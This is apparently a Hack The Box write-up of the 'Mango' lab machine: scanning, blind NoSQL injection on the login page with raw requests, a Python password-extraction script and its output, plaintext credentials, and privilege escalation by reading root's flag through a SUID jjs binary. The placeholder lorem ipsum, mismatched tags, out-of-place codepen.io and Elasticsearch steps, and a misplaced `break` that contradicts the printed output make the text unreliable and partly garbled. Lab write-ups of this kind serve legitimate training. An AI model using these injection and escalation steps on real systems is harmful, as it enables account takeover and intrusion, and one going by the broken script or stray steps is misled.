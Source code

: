 ```yaml
---
layout: single
title: Mango - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-mango/mango_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-mango/mango_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
    |   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
    |_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Mango | Search Base
    | ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
    | Not valid before: 2019-09-27T14:21:19
    |_Not valid after:  2020-09-26T14:21:19
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU mango.htb
    All 1000 scanned ports on mango.htb (10.10.10.162) are closed

2. Enum with dirb and nikto, loot:
    Login Page: http://staging-order.mango.htb   (also shown in nmap ssl-script)

3. Browsing https://mango.htb/analytics.php gives you a key and that it's applicable for *codepen.io, add it to host-file
    root@p3:~/Downloads# cat /etc/hosts
      10.10.10.162	mango.htb staging-order.mango.htb mango.htb.codepen.io

    Browsing the site https://mango.htb.codepen.io/analytics.php now gives us analytic data over startups in different states.

4. Connecting to Elasticsearch and using some random table gives us data from /User/iansadovy/Downloads/Entities.cvs
    POSSIBLE USERNAME: iansadovy

5. Trying NoSQL Injection (via Burp) on the login page reveals that the username is admin.
   Request with 'testuser' returns Response '200 OK', but request with user 'admin' returns '302 Found', confirming the user.
    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=testuser&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 200 OK

    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=admin&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 302 Found

6. In order to get the password we need a script go through every character to see if we get 302 or 200 responses.
   From the following two sites I found examples of Blind NoSQL Injection using POST.
    .. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
    .. https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

   I used the script from 0daylabs as my base and modified it to fit my objective, complete script below.

     import requests
     import string
     import re

     pw = ""
     url = "http://staging-order.mango.htb/index.php"

     # Each time a 302 redirect is seen, we should restart the loop
     restart = True

     while restart:
         restart = False

         # Characters like *, ., &, and + has to be avoided because we use regex
         for i in string.ascii_letters + string.digits + "!#%&'(),/:;<=>@[]^_`{}~-":
             payload = pw + i
             post_data = {'username': 'admin', 'password[$regex]': "^" + re.escape(payload) + ".*", 'login': 'login'}
             #print(post_data)
             r = requests.post(url, data=post_data, allow_redirects=False)
             #print(r)

             # A correct password means we get a 302 redirect
             if r.status_code == 302:
                 print(payload)
                 restart = True
                 pw = payload

             break

    NOTE: In the end I got stuck with regex and special characters. re.escape() and "^" infront of the payload solved it.

7. Run the script to extract the password and login.
   NOTE: Creds - admin:t9KcS3>!0B#2

   root@p3:/opt/htb/machines/mango# python pwExtract.py
      t
      t9
      t9K
      t9Kc
      t9KcS
      t9KcS3
      t9KcS3>
      t9KcS3>!
      t9KcS3>!0
      t9KcS3>!0B
      t9KcS3>!0B#
      t9KcS3>!0B#2
    root@p3:/opt/htb/machines/mango#

8. Modify the script to enumerate users. We know of user admin, so using the script will stop on A. Using burp I found another
   user starting with M. Entered M as the starting letter in the script and run it:

   root@p3:/opt/htb/machines/mango# python userExtract.py
      ma
      man
      mang
      mango
   root@p3:/opt/htb/machines/mango#

   Extract the password for user Mango.
   root@p3:/opt/htb/machines/mango# python pwExtract.py
      h
      h3
      h3m
      h3mX
      h3mXK
      h3mXK8
      h3mXK8R
      h3mXK8Rh
      h3mXK8RhU
      h3mXK8RhU~
      h3mXK8RhU~f
      h3mXK8RhU~f{
      h3mXK8RhU~f{]
      h3mXK8RhU~f{]f
      h3mXK8RhU~f{]f5
      h3mXK8RhU~f{]f5H
   root@p3:/opt/htb/machines/mango#

   NOTE: Creds - mango:h3mXK8RhU~f{]f5H

9. Using SSH to login with admin-creds doesn't work, but with mango-creds it does. Looking in /home/admin we can see user.txt
   but can't read it. Change user to admin to get the flag.

    mango@mango:/home/admin$ cat user.txt
      cat: user.txt: Permission denied
    mango@mango:/home/admin$ su admin
    $ cat user.txt
      79bf****************************

ALL FOUND CREDS:
  admin:t9KcS3>!0B#2
  mango:h3mXK8RhU~f{]f5H
  iansadovy:
  MrR3boot:
  root:


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. SSH in as user mango and pivot to admin. Upgrade the shell, python isn't available so user python3 instead.
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    admin@mango:/home/mango$

2. Running lse.sh gives ut two binaries with SUID bit set
    [!] fst020 Uncommon setuid binaries........................................ yes!
    ---
    /usr/bin/run-mailcap
    /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    ---

3. Looking at gftobins jjs has a lot of exploits, the one that worked for me is "File Read". Trying to use "Sudo" or "Shell" made the
   shell non-interactive / stuck. Using "Reverse Shell" I wasn't able to get a callback, so I opted towards the easy "File Read".

   admin@mango:/dev/shm$ vi read.sh
   admin@mango:/dev/shm$ chmod +x read.sh
   admin@mango:/dev/shm$ ./read.sh
     Warning: The jjs tool is planned to be removed from a future JDK release
     jjs> var BufferedReader = Java.type("java.io.BufferedReader");
     jjs> var FileReader = Java.type("java.io.FileReader");
     jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
     jjs> while ((line = br.readLine()) != null) { print(line); }
     8a8e****************************

   NOTE: To get an interactive root-shell you can also use "File Write" and write your public key to /root/.ssh/authorized_keys

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


MongoDB NoSQLi:
  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
  https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

GTFOBINS:
  https://gtfobins.github.io/gtfobins/jjs/
